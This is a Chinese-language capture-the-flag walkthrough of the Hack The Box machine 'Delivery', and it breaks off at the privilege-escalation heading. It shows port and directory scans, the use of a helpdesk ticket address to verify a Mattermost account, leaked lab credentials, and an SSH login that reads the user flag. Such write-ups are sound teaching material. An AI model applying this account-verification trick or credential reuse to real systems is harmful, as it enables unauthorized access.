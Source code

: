 # 服务探测

开放端口
```
┌──(root㉿rock)-[~]
└─# nmap -p- --open 10.10.10.222                                          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 11:35 EDT
Nmap scan report for 10.10.10.222
Host is up (0.0056s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8065/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 5.10 seconds

```

详细端口信息
```
┌──(root㉿rock)-[~]
└─# nmap -sV -Pn -A -O 10.10.10.222 -p 22,80,8065                         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 11:36 EDT
Nmap scan report for 10.10.10.222
Host is up (0.0028s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Mon, 18 Jul 2022 15:33:34 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: eys7qraci3yxzgttodhwutc5nh
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Mon, 18 Jul 2022 15:37:04 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Mon, 18 Jul 2022 15:37:04 GMT
|_    Content-Length: 0

```

两个web服务

80爆破
```
┌──(root㉿rock)-[~]
└─# python3 /root/dirsearch/dirsearch.py -e* -t 30 -u http://10.10.10.222/                         

  _|. _ _  _  _  _ _|_    v0.4.2.6
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 30 | Wordlist size: 

Output File: /root/dirsearch/reports/10.10.10.222/__22-07-18_23-17-32.txt

Target: http://10.10.10.222/

[23:17:32] Starting: 
[23:17:50] 301 -  185B  - /assets  ->  http://10.10.10.222/assets/          
[23:17:50] 403 -  571B  - /assets/                                          
[23:17:59] 301 -  185B  - /error  ->  http://10.10.10.222/error/            
[23:17:59] 200 -    1KB - /error/                                           
[23:18:04] 301 -  185B  - /images  ->  http://10.10.10.222/images/          
[23:18:04] 403 -  571B  - /images/
[23:18:04] 200 -   11KB - /index.html                                       
[23:18:42] 200 -  648B  - /README.MD                                        
                                                                             
Task Completed

```

看起来都是静态页面

查看80页面源代码，发现有一个```delivery.htb```域名

把```delivery.htb```添加到hosts文件

```10.10.10.222 delivery.htb```

在```http://delivery.htb/#contact-us```文字描述

```
Contact Us

For unregistered users, please use our HelpDesk to get in touch with our team. Once you have an @delivery.htb email address, you'll be able to have access to our MatterMost server.
```

查看网页源代码，又出现了一个域名```helpdesk.delivery.htb```

```MatterMost server```就是8065的web服务，一个登陆页面，需要邮箱账号，注册的账号需要在邮箱中确认，这在lab的环境下是不可能的，因为lab不通外网。

再次把```helpdesk.delivery.htb```添加到hosts文件

```10.10.10.222 helpdesk.delivery.htb```


尝试新建一个工单，返回文字

```
max, 

You may check the status of your ticket, by navigating to the Check Status page using ticket id: 5838037.

If you want to add more information to your ticket, just email 5838037@delivery.htb.

Thanks,

Support Team
```

使用上面文字里提供的邮箱地址，到8065端口注册一个账号
```
用户名：5838037@delivery.htb
```

来到```http://helpdesk.delivery.htb/tickets.php```，输入我们之前创建ticket的邮箱和票据号码（5838037），这个时候就可以在网页上收到确认邮件：

此时页面文字变为：
```
---- Registration Successful ---- Please activate your email by going to: http://delivery.htb:8065/do_verify_email?token=7i3surzbzqs3r1zhun8bkdtw3cjxmp1dpji4donhg7wpg8p96zhsh3ampd6ptatx&email=5838037%40delivery.htb ) --------------------- You can sign in from: --------------------- Mattermost lets you share messages and files from your PC or phone, with instant search and archiving. For the best experience, download the apps for PC, Mac, iOS and Android from: https://mattermost.com/download/#mattermostApps ( https://mattermost.com/download/#mattermostApps
```

点击上面确认URL，确认注册。此时我们有了一个可以登录8065服务的账号密码。

登录系统看到后台留言
```
System
9:25 AM

@root joined the team.
System
9:28 AM
@root updated the channel display name from: Town Square to: Internal
root
9:29 AM

@developers Please update theme to the OSTicket before we go live.  Credentials to the server are maildeliverer:Youve_G0t_Mail! 

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"
root
10:58 AM

PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

暴露一个凭据：```maildeliverer:Youve_G0t_Mail!```

可以使用ssh登录，拿到foodhold
```
┌──(root💀kali)-[~/htb/Delivery]
└─# ssh maildeliverer@10.10.10.222
The authenticity of host '10.10.10.222 (10.10.10.222)' can't be established.
RSA key fingerprint is SHA256:B+rlws5emnYTMuozSG7wYcAeGNraDgR918ttg3/BV9o.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.222' (RSA) to the list of known hosts.
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ whoami
maildeliverer
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt
dc0dc83c949...

```

# 提权
